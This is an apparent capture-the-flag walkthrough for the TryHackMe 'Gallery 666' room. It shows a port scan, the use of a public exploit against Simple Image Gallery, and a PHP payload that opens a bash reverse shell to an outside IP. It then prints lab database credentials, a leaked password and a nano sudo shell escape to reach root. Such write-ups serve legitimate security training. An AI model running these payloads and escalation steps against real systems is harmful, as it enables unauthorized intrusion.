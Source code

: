 ```yaml
---

title: Walkthrough - Gallery 666
published: true
---
```


CMS, Linux, SQLi, RCE. Try to exploit our image gallery system

[https://tryhackme.com/room/gallery666](https://tryhackme.com/room/gallery666)

* * *

## Notes

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Simple Image Gallery System
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```

* * * 

## How many ports are open?

- 2

* * * 

## What's the name of the CMS?

- Simple Image Gallery -  we can use ``/usr/share/exploitdb/exploits/php/webapps/50214.py`` to exploit
- edit the payload ``payload= "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/10.2.127.225/7777 0>&1'\"); ?>"`` and setup a listener to receive a shell

* * * 

## What's the hash password of the admin user?

- ``cat /var/www/html/gallery/initialize.php``

```
cat initialize.php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```

- ``mysql -h localhost -p gallery_db -u gallery_user``
- ``show tables;``
- ``select * from users;``

* * * 

## What's the user flag?

- running linpeas.sh found something interesting

```
╔══════════╣ Searching passwords in history files
      @stats   = stats                                      
      @items   = { _seq_: 1  }
      @threads = { _seq_: "A" }
sudo -l b3stpassw0rdbr0xx
sudo -l
```

- use this to su to mike

* * * 

## Escalate to root

```
(remote) mike@gallery:/$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

- ``cat /opt/rootkit.sh``
- this shell script when set to read runs nano as sudo so we can use it to get root. Run the script and "read" and then ``^R^X`` then ``reset; sh 1>&0 2>&0`` to get root

![](/assets/gallery66601.png)

* * * 
